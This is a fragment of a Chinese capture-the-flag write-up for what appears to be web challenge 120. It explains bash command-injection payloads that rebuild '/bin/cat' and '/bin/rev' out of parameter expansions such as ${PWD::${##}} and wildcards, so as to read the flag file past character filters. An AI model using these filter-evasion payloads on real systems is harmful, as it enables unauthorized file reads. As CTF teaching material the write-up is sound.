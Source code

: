 ```

```



![web120_flag](./image/web120_flag.png)

其他师傅的payload

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
${PWD::${##}}???${PWD::${##}}??${PWD:~${SHLVL}:${##}} ????.???

${#SHLVL}=${##}=${#?}=1
构造/bin/cat ????.???
PWD=/var/www/html
所以PWD的第一位就是/
所以${PWD::${##}}=${PWD:0:1}=/
所以${PWD::${##}}???${PWD::${##}}??t ????.???
其中t可以取PWD倒数第三位即序号-2
${PWD:~${SHLVL}:${#SHLVL}} = ${PWD:-2:1} = t
这里为了更短一些可以将${#SHLVL}换成${##}
所以最终payload:
${PWD::${##}}???${PWD::${##}}??${PWD:~${SHLVL}:${##}} ????.???
```

有一种输出方法叫：rev，其目录在/bin/rev; 他的作用是逆序输出，得到结果再逆序回来就好，蛮好用的； ${PWD:${#IFS}:${##}}在/var/www/html可以取第四位，刚好是r,然后后面用通配符匹配一下；
```
${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.???
```
